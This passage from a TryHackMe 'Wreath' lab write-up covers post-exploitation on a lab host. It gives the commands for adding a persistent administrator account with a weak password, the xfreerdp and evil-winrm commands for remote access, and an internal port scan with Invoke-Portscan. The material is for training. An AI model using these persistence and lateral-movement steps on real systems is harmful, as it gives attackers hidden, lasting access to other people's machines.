 We add an user with administrator privileges and remote access. That way we have more persistent access to the host.
```
net user mystr0 Password1! /add
net localgroup Administrators mystr0 /add
net localgroup "Remote Management Users" mystr0 /add
```

We can now use ```xfreerdp``` to get a remote desktop session on the host:
```
xfreerdp /u:mystr0 /p:Password1! /cert:ignore /v:10.200.87.150 /workarea
```
Or, use ```evil-wnrm``` for a command shell:
```
evil-winrm  -i 10.200.87.150 -u mystr0 -p Password1! 
```

# Compromising 10.200.87.100
From our ```evil-winrm``` session with ```10.200.87.150``` we upload ```Invoke-Portscan.ps1``` to start a portscan from that host:
```
upload Invoke-Portscan.ps1
. .\Invoke-Portscan.ps1
Invoke-Portscan -Hosts 10.200.87.0/24
```
We can see multiple open ports:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/12.png">
